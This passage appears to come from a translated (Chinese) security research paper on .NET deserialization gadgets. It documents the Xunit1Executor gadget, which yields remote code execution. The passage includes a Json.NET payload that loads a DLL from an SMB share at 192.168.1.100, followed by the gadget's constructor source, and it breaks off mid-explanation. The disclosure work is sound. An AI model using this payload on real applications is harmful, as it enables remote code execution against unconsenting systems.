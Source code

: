 代码段 40 Grpc.Core - Mac library loading

#### 2.1 Xunit Runner Utility – Xunit1Executor 远程 DLL 加载

目标类：`Xunit.Xunit1Executor`

适用的序列化器：`Json.Net`、`XamlReader`、`MessagePack` 和其他潜在的序列化器。

适用的.NET 版本：.NET Framework

最近测试的版本：2.5.1

效果：通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行。可以传递包含 `Xunit.Sdk.Executor` 类的 .NET Framework DLL，该类实现了一个接受单个字符串的构造函数 —— `Executor(string)`。此构造函数将在反序列化过程中被调用。

漏洞利用代码（Json.NET）：

```bash
{ 
    "$type":"Xunit.Xunit1Executor, xunit.runner.utility.net452, Version=2.4.2.0,  
Culture=neutral, PublicKeyToken=8d05b1bb7a6fdb6c", 
    "useAppDomain":true, 
     "testAssemblyFileName":"\\\\192.168.1.100\\poc\\xunit.dll" 
}
```

代码段 41 Xunit1Executor gadget

描述： `Xunit.Xunit1Executor` 类定义了一个单一的公共构造函数，需要多个参数。

```bash
public Xunit1Executor(bool useAppDomain, string testAssemblyFileName, string 
configFileName = null, bool shadowCopy = true, string shadowCopyFolder = null) 
{ 
    this.appDomain = AppDomainManagerFactory.Create(useAppDomain, 
testAssemblyFileName, configFileName, shadowCopy, shadowCopyFolder); // [1] 
    this.xunitAssemblyPath =  
Xunit1Executor.GetXunitAssemblyPath(testAssemblyFileName); // [2] 
    this.xunitAssemblyName =  
AssemblyName.GetAssemblyName(this.xunitAssemblyPath); 
    this.executor = this.CreateObject("Xunit.Sdk.Executor", new object[] 
    { 
        testAssemblyFileName 
    }); // [3] 
    this.TestFrameworkDisplayName = string.Format(CultureInfo.InvariantCulture, 
"xUnit.net {0}", new object[] 
    { 
        AssemblyName.GetAssemblyName(this.xunitAssemblyPath).Version 
    }); 
}
```

代码段 42 Xunit1Executor constructor

在\[1\]处，调用了 `AppDomainManagerFactory.Create`，并提供了受攻击的输入。如果 `useAppDomain` 设置为 true，则将返回 `Xunit.AppDomainManager_AppDomain` 的对象。该对象有一个名为 AppDomain 的成员，用于存储 `.NET AppDomain`。

这个 `.NET AppDomain` 对象是通过以下方法创建的（为了可读性省略了几个中间调用）：
